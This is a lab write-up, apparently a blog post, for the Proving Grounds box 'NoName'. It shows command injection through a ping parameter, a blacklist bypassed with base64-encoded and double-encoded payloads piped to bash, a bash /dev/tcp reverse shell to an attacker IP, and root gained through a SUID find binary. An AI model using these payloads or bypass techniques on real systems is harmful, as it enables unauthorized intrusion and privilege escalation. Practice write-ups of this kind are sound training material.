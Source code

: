 ```yaml
---
title: NoName - Proving Grounds
date: 2022-07-27
categories:
  - Writeup
  - Proving_Grounds
tags:
  - Command Injection
  - SUID
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
image: offsec.png
platform: offsecsil2.png
---
```


Easy rated Proving Grounds Play machine that covers command injection and SUID privesc. 

<!--more-->


## NMAP

```
PORT   STATE SERVICE
80/tcp open  http
```

## Port 80 Enumeration

I started with my usual enumeration of http with Nikto and Gobuster. Nikto did not return anthing interesting while Gobuster returned `admin` and `superadmin.php`

    - `admin` only has pictures posted with no functionality
    - `superadmin.php` looks more interesting as looks like there is a ping functionality that we can play with.


![admin](\assets\images\noname-pg\2022-07-27-15-23-21.png)

![superadmin](\assets\images\noname-pg\2022-07-27-15-41-18.png)

Intercepting the request with burp we can see two parameters `pinger` and `submitt`. `pinger` looks really interesting and is screaming command injection :p

![](\assets\images\noname-pg\2022-07-27-15-42-17.png)

Trying command injection with `sleep` command. I tried `;` and `&` but did not work, while trying `|` worked

![](\assets\images\noname-pg\2022-07-27-15-43-36.png)

As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command resulting to a five second delay in the response. 

Now that we have confirmed the command injection vulnerability we can now try some basic [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). I tried the bash, nc, and python payloads but nothing worked. I also tried `ls`, `pwd`, and `cat /etc/passwd` but it also did not return anything, so I tried `cat superadmin.php` and the response returned the following:

```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc",
    "dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

Looks like there are blacklisted characters and commands, that's why we can't `ls` and `cat /etc/passwd`. From here I thought we can try try echoing a `base64` encoded command then pipe it to `base64 -d` then to `bash`. Something like the following:
```bash
echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`
```

![](\assets\images\noname-pg\2022-07-27-16-26-33.png)

And it worked, so I tried with a reverse shell 

```bash
bash -i >& /dev/tcp/192.168.49.210/80 0>&1
```
    
For some reason the following `base64` encoded reverse shell payload still did not work:

```bash 
|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx'|base64 -d|bash
``` 

Which is really weird, So to troubleshoot I tried removing the last `|bash` part in my payload so it will print the `base64` decoded payload instead of executing it with bash, and I got the following response
           
![](\assets\images\noname-pg\2022-07-27-16-48-44.png)

Looks like it is not printing the whole `base64` encoded command. not sure why but that's the reason our reverse shell is not getting executed properly. From here I tried double `base64` encoding my payload and it worked 

```bash
|echo 'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64 -d|base64 -d|bash`
```

![](\assets\images\noname-pg\2022-07-27-16-46-09.png)

## Privesc


Now we have a shell as `www-data` first thing I check usually is the `SUIDs`. I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](\assets\images\noname-pg\2022-07-27-16-52-16.png)

Using the following command `find . -exec /bin/sh \; -quit` gave us root access to the box.

![](\assets\images\noname-pg\2022-07-27-16-54-22.png)

